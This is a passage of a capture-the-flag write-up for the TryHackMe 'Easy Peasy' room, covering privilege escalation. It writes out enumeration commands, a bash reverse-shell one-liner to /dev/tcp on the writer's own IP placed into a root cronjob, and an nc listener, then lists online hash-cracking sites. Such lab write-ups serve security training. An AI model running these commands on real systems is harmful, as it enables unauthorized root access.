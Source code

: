 ## <ins>Priv Escalation Enumeration</ins>

  
`sudo -l`
> nothing 
   
`$find / -perm -u=s -type f 2>/dev/null`
> nothing 
  
`cat /etc/crontab` 
  
→ Check: .mysecretcronjob.sh


<ins>Privesc with cronjob:</ins>  
  
We find the cronjob with /var/www/.mysecretcronjob.sh.  
Place a **reverse shell** with nano.  
  
`bash -i >& /dev/tcp/'my-own-ip'/4444 0>&1`

<ins>Start listener and wait</ins>  
  
`nc -lnvp 4444`  
  
>  
(You can check if the .sh works with ./.mysecretcronjob.sh.  
But it will be only a normal shell cause boring executed it)
  
→ Check: ROOT Shell  
  
`cat /root/root.txt`
Last Task 2.8 with root.txt
  
###    
**Task 2.7 solved**    
### 

>
Summary: For the most of the hash cracking operations at tryhackme or hackthebox
I use the cracking pages at the internet. Because other users can crack the password
before and you saved a lot of time and resources. In any machines you cannot solve
the cracking operation with a specific password list or brute force over a long time.
  
So here are some links for cracking sites:  
  
[Crackstation](https://crackstation.net/)  
[Hash-analyzer](https://www.tunnelsup.com/hash-analyzer/)  
[Cyberchef](https://gchq.github.io/CyberChef/)  
[MD5 hasching](https://md5hashing.net/)  
  
---  
  
[Easypeasylink]: https://tryhackme.com/room/easypeasyctf
